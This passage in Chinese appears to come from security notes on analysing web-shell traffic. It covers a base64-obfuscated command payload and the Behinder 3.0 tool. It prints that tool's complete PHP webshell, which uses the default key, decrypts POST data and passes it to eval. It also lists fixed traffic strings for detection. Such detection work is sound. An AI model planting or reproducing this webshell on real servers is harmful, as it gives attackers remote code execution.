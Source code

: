 3. payload存在简单的混淆，执行的命令会被base64编码，且需要去除前2个字节，最终执行的命令是`$r = "{$p} {$c}";`类似`cmd.exe /c "xxx"`
![](/data/image/web/flow/image-3.png)
![](/data/image/web/flow/image-4.png)
![](/data/image/web/flow/image-5.png)

4. 因为执行命令时加了`echo xxx`的随机打印，所有返回会有对应随机的输出
![](/data/image/web/flow/image-6.png)

## 冰蝎

1. php服务器端webshell如下（位于安装目录的`server`目录下），解密密钥为`e45e329feb5d925b`，通过`md5("rebeyond")[0:16]`得到，其中`rebeyond`是冰蝎3.0的默认密码。无密钥无法从流量层面进行解密。
```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```
2. 连接成功后会默认显示`phpinfo`信息页面
![](/data/image/web/flow/image-7.png)

3. 如使用默认密钥，请求中会有固定的`3Mn1yNMtoZViV5wotQHPJtwwj`；响应中会有固定的`mAUYLzmqn5QPDkyI5lvSp0fjiBu1e7047Yj`。
![](/data/image/web/flow/image-8.png)

4. 人工解密参看如下：

请求：![](/data/image/web/flow/image-9.png)
响应：![](/data/image/web/flow/image-10.png)
